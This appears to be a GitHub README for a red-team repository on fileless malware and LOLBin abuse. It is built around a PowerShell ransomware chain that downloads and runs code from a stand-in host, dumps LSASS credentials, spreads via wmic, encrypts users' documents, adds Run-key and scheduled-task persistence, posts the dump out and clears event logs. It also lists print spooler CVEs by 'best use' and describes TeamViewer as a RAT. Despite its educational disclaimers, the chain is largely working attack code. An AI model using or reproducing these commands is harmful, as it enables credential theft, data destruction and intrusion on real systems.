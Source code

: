 

# Overview

## ⚠️ Advisory Warning: Educational Use Only

This repository contains research material on advanced cybersecurity concepts, including NSFW (Not Safe for Work) topics such as **fileless malware**, **LOLBins abuse**, and **adversary simulation chains**.
All content is intended **solely for educational, academic, and controlled research lab environments**.

> **🚫 Do not deploy or reproduce any of the included techniques on unauthorized or production systems. Misuse may violate legal, ethical, and professional standards.**

![Screenshot 2025-05-21 001453](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)


---

## 🧠 Threat Landscape Overview: Fileless Malware & LOLBins

**Fileless malware** operates exclusively in memory, avoiding disk writes to evade antivirus and EDR solutions. Leveraging trusted system binaries, attackers can bypass defenses without dropping a traditional file-based payload. These attacks often chain together native tools, scripts, and in-memory injection, leaving minimal forensic traces.

**LOLBins** (Living Off the Land Binaries) are legitimate Windows binaries repurposed by adversaries for malicious activity. Since they’re signed and trusted, many defenses overlook them. Abuse of LOLBins is a common red team tactic mapped extensively in the [MITRE ATT\&CK](https://attack.mitre.org/) framework.

---

## ⚙️ Common LOLBins and Abuse Patterns

| LOLBin                     | Abused For                | ATT\&CK Tactics                   |
| -------------------------- | ------------------------- | --------------------------------- |
| `rundll32.exe`             | DLL execution             | Code execution, EDR bypass        |
| `mshta.exe`                | Run HTA payloads          | Script execution, sandbox evasion |
| `regsvr32.exe`             | Load COM DLLs             | Fileless execution, C2 proxy      |
| `wmic.exe`                 | Remote command execution  | Process launch, lateral movement  |
| `cmd.exe / powershell.exe` | Script runners            | Payload staging, persistence      |
| `msbuild.exe`              | Inline C# compile/exec    | Fileless malware loading          |
| `certutil.exe`             | Download/decode files     | Exfiltration, staging             |
| `bitsadmin.exe`            | Remote file fetch         | Delivery, task persistence        |
| `schtasks.exe`             | Task scheduling           | Privilege escalation, persistence |
| `esentutl.exe`             | Copy/exec binary payloads | Stealth operations, exfiltration  |

---

## 🧬 Simulated Kill Chain: 100% Fileless Ransomware

*Using [MITRE ATT\&CK](https://attack.mitre.org/) for Technique Mapping*

> ⚠️ **Disclaimer**: This PowerShell sequence is a synthetic simulation created for red team development in secure lab environments. Execution outside of controlled conditions is **strictly prohibited**.

<details>
<summary>🔐 Simulated PowerShell Ransomware Payload Chain</summary>

```powershell
# 🎯 Initial Access (T1190)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# ⚡ Execution (T1059.001)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 🔓 Privilege Escalation (T1548)
Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Windows\Temp\elevate.ps1" -Verb RunAs

# 🧪 Credential Access (T1003.001)
Invoke-Expression "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full"

# 🔍 Discovery (T1082)
$sysInfo = Get-WmiObject Win32_ComputerSystem | Select Manufacturer, Model, Name, Domain, UserName
$networkInfo = Get-NetAdapter | Select Name, MacAddress, Status
Write-Output $sysInfo; Write-Output $networkInfo

# 🌐 Lateral Movement (T1021.001)
cmd.exe /c "wmic /node:targetPC process call create 'powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1'"

# 💣 Impact: File Encryption (T1486)
$targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.txt,*.docx,*.xls -Recurse
foreach ($file in $targetFiles) {
    $content = Get-Content $file.FullName -Raw
    $key = (1..32 | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [System.Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
    $aes.IV = New-Object byte[] 16
    $encryptor = $aes.CreateEncryptor()
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    $encryptedContent = [Convert]::ToBase64String($encryptor.TransformFinalBlock($bytes, 0, $bytes.Length))
    Set-Content -Path $file.FullName -Value $encryptedContent
}

# 📌 Persistence (T1547.001)
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousProcess" -Value "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1"
schtasks /create /tn "MaliciousTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" /sc onlogon /rl highest

# 📤 Exfiltration (T1041)
$exfilData = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\lsass.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfilData

# 🧹 Defense Evasion (T1070)
Remove-Item -Path C:\Windows\Temp\* -Force -Recurse
wevtutil cl System; wevtutil cl Security; wevtutil cl Application
cmd.exe /c "attrib +h +s C:\Windows\Temp\*"
```

</details>


### 🔓 **1. CVE-2021-34527 — "PrintNightmare"**

* **Name**: PrintNightmare
* **CVE**: [CVE-2021-34527](https://nvd.nist.gov/vuln/detail/CVE-2021-34527)
* **Type**: Remote Code Execution + Local Privilege Escalation
* **Vector**: Malicious printer driver install via SMB or RDP with Print Spooler enabled
* **Exploit Chain**: Gain RCE as SYSTEM remotely via crafted printer driver + DLL
* **Status**: Patched, but **many misconfigured systems remain vulnerable**
* **Best Use**: Initial Access + Lateral Movement (wormable)

---

### 🧬 **2. CVE-2022-21999 — "SpoolFool"**

* **Name**: SpoolFool
* **CVE**: [CVE-2022-21999](https://nvd.nist.gov/vuln/detail/CVE-2022-21999)
* **Type**: Local Privilege Escalation (to SYSTEM)
* **Vector**: Arbitrary file write via Print Spooler registry misconfiguration (`HKLM\SYSTEM\CurrentControlSet\Control\Print\Printers\*`)
* **Exploit Chain**: Inject malicious DLL via PrintNotify callback registry, then start spoolsv
* **Status**: Still viable against many targets, especially **Windows Home editions**
* **Best Use**: Post-RCE PrivEsc (e.g. after phishing, file drop, or PrintNightmare)

# TeamViewer as a RAT: Summary

TeamViewer, a popular remote desktop application, can be misused as a Remote Access Trojan (RAT) primarily by exploiting weak configurations, credential theft, or known vulnerabilities in its software versions. Attackers who gain access to valid credentials or exploit unpatched CVEs (such as DLL injection or privilege escalation flaws) can silently control a target system remotely, execute arbitrary commands, and move laterally within networks. This misuse leverages TeamViewer’s legitimate remote control capabilities to maintain persistent, stealthy access without triggering typical malware defenses. However, turning TeamViewer into a RAT requires either compromising authentication or exploiting vulnerabilities in older or unpatched versions, highlighting the importance of strong credential management and timely software patching.


## 🧭 Additional Red Team Resources

* 🛠️ [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
* 🧬 [LOLGEN – Generate LOLBin Abuse Chains](https://lolgen.hdks.org/)
* 🔍 [MITRE ATT\&CK Entry – S0697](https://attack.mitre.org/software/S0697/)
* 💥 [PrintNightmare Technical Dive](https://itm4n.github.io/printnightmare-not-over/)
* 💀 [Print Spooler Exploit Overview](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-eop-the-printnightmare-of-2021/)
* 🔗 [DLL Injection Reference](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
* 🦠 [Wikipedia: Fileless Malware](https://en.wikipedia.org/wiki/Fileless_malware)
* 🖨️ [Printer Driver Exploit Repo](https://github.com/jacob-baines/concealed_position)

---

## 🛡️ Final Note

This repository is curated for cybersecurity researchers, malware analysts, and red team operators. It is not intended for malicious use or real-world deployment. Always adhere to your country’s cybercrime laws and organizational rules of engagement. Operate responsibly.


